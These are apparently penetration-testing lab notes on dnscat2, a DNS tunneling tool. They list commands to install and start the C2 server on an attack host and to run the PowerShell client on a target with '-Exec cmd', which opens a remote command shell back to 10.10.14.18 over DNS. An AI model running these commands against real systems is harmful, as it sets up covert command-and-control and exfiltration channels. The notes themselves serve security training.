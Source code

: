 - Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. 
- It uses an encrypted Command-&-Control (C&C or C2) channel and sends data inside TXT records within the DNS protocol.
- [dnscat2](https://github.com/iagox86/dnscat2)
- [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)

### Cloning dnscat2 and Setting Up the Server
```shell
$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```
### Starting the dnscat2 server
```shell
$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache


Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21
```

###  Cloning dnscat2-powershell to the Attack Host
```powershell
git clone https://github.com/lukebaggett/dnscat2-powershell.git

PS C:\user> Import-Module .\dnscat2.ps1


PS C:\user> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

### Interacting with the Established Session

```shell
dnscat2> ?
dnscat2> window -i 1
```







